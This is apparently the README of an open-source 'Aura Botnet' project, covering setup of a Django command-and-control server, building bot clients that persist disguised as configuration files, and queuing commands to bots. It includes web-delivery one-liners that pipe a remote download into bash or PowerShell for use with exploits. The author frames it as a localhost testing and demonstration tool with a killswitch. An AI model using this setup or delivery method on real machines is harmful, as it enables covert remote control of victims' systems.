 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the `django-server`
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:django_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The Django server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in the *settings.py*
file under `django-server/aura`. You may wish to use MySQL, or even PostgreSQL
instead; this easy to do thanks to Django's portable database API.

Bot Clients
---
The primary clients for Windows and Linux are written in Rust. Alternate clients
are written in Bash and Powershell.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

To initialize the SQLite3 database, simply change into the `django-server`
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
`runserver.sh` is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
You can choose whichever client you feel is most appropriate for the platoform
and use case.

For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory (`client/rust-linux` or
`client/rust-windows`) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

For the Linux C++ client, change into the source directory and run:
```
cmake .
make
```
For the Windows clients, you can find various methods of using Cmake
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

The Powershell and Bash clients simply need to be executed on the target
machine.

The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

Configuring Commands
---

These can easily be managed through the Django shell or admin site. The
client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in `django-server/groups.json`. The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
- Merge Linux and Windows C++ clients
- Cleanup code styling and optimize Django views
- Add support for "modules" to be run easily on arbitrary clients. E.g.: Start
an interactive shell, grab arbitrary system files, install keylogger, spread
using various exploits etc.
- Create clients for mobile devices
- Implement compatibility with running C2 server as a hidden Tor service

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>
